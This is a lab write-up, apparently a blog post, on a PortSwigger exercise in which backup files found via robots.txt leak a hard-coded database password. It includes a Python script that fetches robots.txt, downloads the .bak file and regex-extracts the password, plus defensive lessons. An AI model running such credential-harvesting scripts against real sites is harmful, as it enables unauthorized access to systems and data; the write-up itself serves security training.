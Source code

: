 # Source Code Disclosure via Backup Files — Hunting Sensitive Data Left in the Wild 🔍🗃️

**By Aditya Bhatt**

## Introduction

Information disclosure vulnerabilities remain a frequent and critical issue in web security. One surprisingly common mistake developers make is unintentionally exposing sensitive files—like source code backups or configuration files—in publicly accessible directories. These exposures can leak hard-coded credentials, API keys, or other secrets, instantly turning a simple app into an easy target 🎯.

In this write-up, I walk through a practical example from a recent BurpSuite lab focused on **Source Code Disclosure via Backup Files** — a classic yet often overlooked vulnerability that can yield high-impact rewards in bug bounty programs 💰.

![Cover](https://github.com/user-attachments/assets/79777647-0f89-46f6-a4bd-fa71517e0c2f) <br/>

---

## Lab Overview: Source Code Disclosure via Backup Files

The lab simulates a real-world scenario where a web application leaks its source code through backup files stored in a hidden directory. The goal is to discover and retrieve a hard-coded database password embedded inside the leaked source code 🔐.

---

## Step-by-Step Walkthrough

### 1. Access the Lab

Navigate to the lab URL: [https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files) 🌐.

![1](https://github.com/user-attachments/assets/db503da8-6ba8-46fe-ac7b-a1cc937e85e0) <br/>

### 2. Check robots.txt for Clues

Open `/robots.txt` to see if any disallowed paths might hint at hidden directories. The file reveals a `/backup` directory—a potential goldmine for leftover files 🗂️.

![2](https://github.com/user-attachments/assets/d69b5ed4-6230-4d0f-b2e1-87d8874fe905) <br/>

### 3. Explore the `/backup` Directory

Browsing to `/backup` lists available files, including `ProductTemplate.java.bak`. This is clearly a backup file, potentially containing sensitive source code 🧾.

![3](https://github.com/user-attachments/assets/dead20b8-4c21-445c-9dc1-9356c3953832) <br/>

### 4. Inspect the Backup Source Code

Opening `/backup/ProductTemplate.java.bak` reveals the entire Java source file. Scanning through the code, we spot a connection builder with a hard-coded Postgres database password. This careless developer left the keys to the kingdom right in the code—likely a result of rushed work or overlooked cleanup 🔑.

> *"Click on weird links to get weird bounties" — Aditya Bhatt 🗿*
> Just kidding, but sometimes it really is that simple 😅.

![4](https://github.com/user-attachments/assets/a5b2786d-fa27-48b9-a0ab-112aeb50425e) <br/>

### 5. Submit the Extracted Password

Copy the discovered password and submit it via the lab’s solution interface ✅.

![5](https://github.com/user-attachments/assets/e2f66c50-7b67-4d41-b983-566edcfc8117) <br/>

### 6. Lab Solved!

Success! 🎉 The lab confirms the vulnerability exploitation, demonstrating the risks of leaving backup files accessible in production environments.

![6](https://github.com/user-attachments/assets/b9e61bc3-55fd-45d3-8f22-022ba5e69707) <br/>

---

## Source Code 
```python
import requests
import re
from bs4 import BeautifulSoup

# Replace with the lab URL base
BASE_URL = "https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files"

def get_robots_txt(url):
    r = requests.get(f"{url}/robots.txt")
    if r.status_code == 200:
        return r.text
    return ""

def find_backup_path(robots_txt):
    # Simple regex to find disallowed paths
    matches = re.findall(r'Disallow: (/.+)', robots_txt)
    for path in matches:
        if "backup" in path.lower():
            return path
    return None

def fetch_backup_file(url, backup_path, filename):
    full_url = f"{url}{backup_path}/{filename}"
    r = requests.get(full_url)
    if r.status_code == 200:
        return r.text
    return None

def extract_password(source_code):
    # Example regex to find Postgres password in typical Java code
    # This regex assumes something like password = "secret";
    pattern = r'password\s*=\s*"([^"]+)"'
    match = re.search(pattern, source_code, re.IGNORECASE)
    if match:
        return match.group(1)
    return None

def main():
    print("[*] Fetching robots.txt...")
    robots_txt = get_robots_txt(BASE_URL)
    if not robots_txt:
        print("[-] Could not fetch robots.txt or file is empty.")
        return

    print("[*] Searching for backup directory in robots.txt...")
    backup_path = find_backup_path(robots_txt)
    if not backup_path:
        print("[-] No backup directory found in robots.txt.")
        return

    print(f"[+] Found backup directory: {backup_path}")
    filename = "ProductTemplate.java.bak"

    print(f"[*] Fetching backup file: {filename}...")
    source_code = fetch_backup_file(BASE_URL, backup_path, filename)
    if not source_code:
        print(f"[-] Could not fetch the backup file {filename}.")
        return

    print("[*] Extracting password from backup source code...")
    password = extract_password(source_code)
    if password:
        print(f"[+] Database password found: {password}")
    else:
        print("[-] Password not found in the backup source code.")

if __name__ == "__main__":
    main()
```

---

## Lessons Learned

* **Backup files are dangerous:** Developers often forget to remove backup or temporary files before deployment. These files can expose entire source code or secrets 🛑.
* **robots.txt can leak info:** While intended to instruct web crawlers, `robots.txt` can unintentionally disclose sensitive paths 🕵️‍♂️.
* **Source code leaks = instant root access:** Hard-coded credentials in source code can compromise entire systems 🚨.
* **Content discovery is essential:** Automated directory fuzzing and content discovery tools help reveal hidden files and directories 🔎.

---

## Real-World Implications

In live environments, the exposure of backup or configuration files containing sensitive data is a common vector for attackers to gain foothold, escalate privileges, or dump databases. Many bug bounty programs reward such findings generously because of their critical impact 💸.

As bug hunters, we must always:

* Check `/robots.txt` for sensitive paths 📜.
* Perform thorough content discovery to find hidden directories and files 🔍.
* Analyze backup, temp, and config files for secrets 🗝️.
* Report responsibly with remediation advice: restrict access, remove backups, and avoid hard-coded credentials 🛡️.

---

## Conclusion

This BurpSuite lab highlights a fundamental security lapse: leaving backup files accessible on public servers. Despite being a simple misconfiguration, it can lead to serious data breaches. For bug bounty hunters, mastering this technique can unlock critical vulnerabilities quickly and effectively ⚡.

Happy hunting, and remember — sometimes the “weird links” are the keys to the bounty! 🕵️‍♀️💥

---

If you found this write-up helpful, follow me for more bug bounty tips and real-world InfoSec insights 🔐✨.

— **Aditya Bhatt**
Cybersecurity Researcher & Bug Bounty Hunter

---
